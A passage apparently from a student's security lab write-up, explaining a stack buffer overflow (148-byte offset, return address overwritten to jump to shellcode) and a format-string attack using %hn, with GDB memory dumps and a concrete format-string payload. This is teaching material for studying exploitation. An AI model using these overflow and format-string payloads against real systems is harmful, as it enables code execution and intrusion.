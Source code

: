 By doing so, we learned that the location of the return address from this function is 148 bytes away from the start of the location of the `buf` local variable.

### Exploit Structure

The exploit has three parts:

1. Write 148 dummy characters to the local variable `buf`.
2. Overwrite the `rip` with the address of the shellcode. Since we are putting shellcode directly after the rip, we overwrite the `rip` with *0xffffd920*.
3. Finally, insert the shellcode directly after the `rip`.

### Exploit GDB Output

```c
(gdb) x/40x buf
0xffffd888:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd898:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd8a8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd8b8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd8c8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd8d8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd8e8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd8f8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd908:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd918:     0x41414141      0xffffd920      0xdb31c031      0xd231c931
```

After 148 bytes of garbage, the `rip` is overwritten with *0xffffd920*, which points to the shellcode directly after the `rip`.

## Question 6

### Main Idea

The code is vulnerable because it directly uses the the local variable `buf`, which is inputed by the user, as the format string argument to the `printf` function. This allows us to use the `%hn` format specifier to overwrite the `rip` of function `calibrate` with the address of the shellcode.

### Magic Numbers

We first need to determine the address of the local variable `buf` (*0xffffd830*), of the `rip` of function `printf` (*0xffffd7ec*), of the `rip` of function `calibrate` (*0xffffd81c*), and of the shell code (*0xffffda60*). This is done by setting a breakpoint at line 10 and then stepping into the `printf` function at line 10 later.

```c
p buf
$7 = 0xffffd830 "AAAA\034\330\377\377AAAA\036\330\377\377%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%55873u%hn%9631
u%hn\n"
```

```c
(gdb) i f
Stack level 0, frame at 0xffffd820:
 eip = 0x8049224 in calibrate (calibrate.c:10); saved eip = 0x804928f
 called by frame at 0xffffd8d0
 source language c.
 Arglist at 0xffffd818, args:
    buf=0xffffd830 "AAAA\034\330\377\377AAAA\036\330\377\377%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%55873u%hn%9
631u%hn\n"
 Locals at 0xffffd818, Previous frame's sp is 0xffffd820
 Saved registers:
  ebp at 0xffffd818, eip at 0xffffd81c
```